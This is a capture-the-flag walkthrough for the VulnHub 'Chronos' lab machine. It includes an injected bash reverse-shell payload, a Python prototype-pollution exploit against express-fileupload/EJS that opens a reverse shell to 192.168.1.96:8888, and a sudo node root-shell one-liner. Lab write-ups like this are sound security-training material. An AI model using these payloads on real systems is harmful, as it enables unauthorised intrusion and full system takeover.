 # Chronos

![image](https://user-images.githubusercontent.com/5285547/129067750-516ca744-9b4c-4347-982f-5d4a36e431e9.png)

Room link: https://www.vulnhub.com/entry/chronos-1,735/

## Enum

Nmap 

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```


# Port 80

Nothing much on the home page, refreshing and checking in the dev networks tools shows a strage url request

![image](https://user-images.githubusercontent.com/5285547/129068515-2591006b-ed4a-411c-99f3-540e35be3aef.png)


```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

Add chronos.local to /etc/hosts file

Now on the page we see the result. 

![image](https://user-images.githubusercontent.com/5285547/129071126-5810cb0f-273c-473e-a8de-a117fc8b32d9.png)

Checking the encoding, it turns out its Base58

![image](https://user-images.githubusercontent.com/5285547/129075155-f2d4cab2-28b4-4fa5-94e0-bb741ec74391.png)

![image](https://user-images.githubusercontent.com/5285547/129083902-4b104c8a-ba76-4b90-9a19-8ddf1f623217.png)
---
# www-data
Next was to get a reverse shell. 

```
# payload
;bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1";
```

![image](https://user-images.githubusercontent.com/5285547/129084566-7f38c45b-3083-47b7-b3c5-667bcac3b5e2.png)

Finding another webservice on 127.0.0.1:8080, I checked the system for the files. 

```
www-data@chronos:/opt/chronos-v2/backend$ pwd
/opt/chronos-v2/backend
```
```
www-data@chronos:/opt/chronos-v2/backend$ cat server.js 
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```

cat package.json

```
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",                                                                                                                                                                                                                              
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

This article helps top explain the node express fileupload vuln: https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325

---
## User

Change to the /tmp directory and make a reverse shell as per the article before. 

nano rev.py

```
### imports
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.1.96/8888 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://127.0.0.1:8080')
print("Finished!")

```

![image](https://user-images.githubusercontent.com/5285547/129087625-827dd813-5488-4481-9600-0c0f9db3f8df.png)

Now we are imera and can get the user flag. 

![image](https://user-images.githubusercontent.com/5285547/129087862-95ebfe9a-7cd0-40ff-a385-48a67148b438.png)


## Root

Checking gtfo bins fdor node, I tested this payload to get root instantly. 

![image](https://user-images.githubusercontent.com/5285547/129088353-2c4463c3-4af8-4d96-8d31-dab3899245e0.png)

```
sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![image](https://user-images.githubusercontent.com/5285547/129088291-8dc411eb-f403-43e1-8941-d308a0008c2d.png)
